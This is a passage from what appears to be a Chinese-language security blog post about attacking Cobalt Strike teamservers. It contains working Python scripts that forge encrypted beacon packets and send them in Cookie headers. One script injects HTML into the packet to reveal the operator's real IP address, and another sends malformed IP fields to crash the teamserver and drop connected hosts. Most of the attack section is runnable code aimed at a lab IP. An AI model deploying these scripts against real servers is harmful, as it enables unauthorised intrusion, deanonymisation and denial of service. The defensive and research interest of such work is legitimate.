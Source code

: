         enpack = rsa.encrypt(pack, pubkey)  
        header = {  
            'Cookie': base64.b64encode(enpack).decode('utf-8')  
        }  
        request = urllib.request.Request(url, headers=header)  
      
    if __name__ == "__main__":  
        for i in range(100):  
            run("http://192.168.127.130/dot.gif","192.168.127.1","naihe_pc","<html><img src=x>","shell.exe","MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCTUlJ7J79z/MkkV8+MsYlOvREE2hhdGNzrKPFZ10lY0K5legA+um5JxESEaC0woDgSmOGrkh1giz/aQwd6tG4mihFgpi0oIbfwu6XZbE6ghYGyu2F7+A5TifRUzvU0YLXjK78EW12XhjHx4KopMF/AtOAueGwfiI2DmXwNzrBDvwIDAQAB==")  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114749.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114750.png)

可以看到这里已经返访问了我们搭建的http服务，不过由于在这里我的客户端和teamserver在同一台主机上因此ip是相同的，而在实际情况中获取的ip是绕过teamserver的Cobalt
Strike客户端ip，相当于攻击者主动去访问图签资源（类似于浏览器），通过这种方式就可获取真实ip地址

## Cobalt Strike服务错误攻击

在这里可以利用一些非正常的ip格式来造成teamserver报错，导致Cobalt Strike客户端无法正常使用。由于Cobalt
Strike对ip的格式要求是非常严格的，如果不符合格式就会导致teamserver报错从而不能正常运行，这种方式是非常恶心的，一旦被攻击，只能重启teamserver，然而beacon的连接并非十分稳定，如果通过这种方式让上线主机直接掉线，那是真的恶心。。。

    
    
    #!/usr/bin/env python  
    # coding=utf-8  
    import rsa  
    import random  
    import urllib.request  
    import base64  
      
    def run(url,pubkey):  
        pack = b'\x00\x00\xBE\xEF\x00\x00\x00\x51\xC6\x21\x5B\xCD\xAE\x4A\x74\x55'  
        pack += b'\x1E\xE3\x60\x94\x90\xBA\xE2\x17\xA8\x03\xA8\x03'  
        pack += random.randint(0 , 65535) .to_bytes(4, 'big')+random.randint(0 , 65535) .to_bytes(4, 'big')  
        pack += b'\x00\x00\x45\x80\x00\x00\x09\x31\x39\x32\x2E\x31'  
        pack += b'\x36\x38\x2E\x32\x34\x38\x2E\x31\x09\x44\x45\x53\x50'  
        pack += b'\x2D\x55\x54\x42\x09'  
        pack += "<html><img src =http://127.0.0.1>".encode("utf-8")  
        pack += b'\x09\x62'  
        pack += b'\x65\x61\x63\x6F\x6E\x2E\x65\x78\x65'  
      
        key = '-----BEGIN PUBLIC KEY-----\n'+pubkey+'\n-----END PUBLIC KEY-----'  
        pubkey = rsa.PublicKey.load_pkcs1_openssl_pem(key)  
      
        enpack = rsa.encrypt(pack, pubkey)  
        header = {  
            'Cookie': base64.b64encode(enpack).decode('utf-8')  
        }  
        request = urllib.request.Request(url, headers=header)  
        reponse = urllib.request.urlopen(request).read()  
      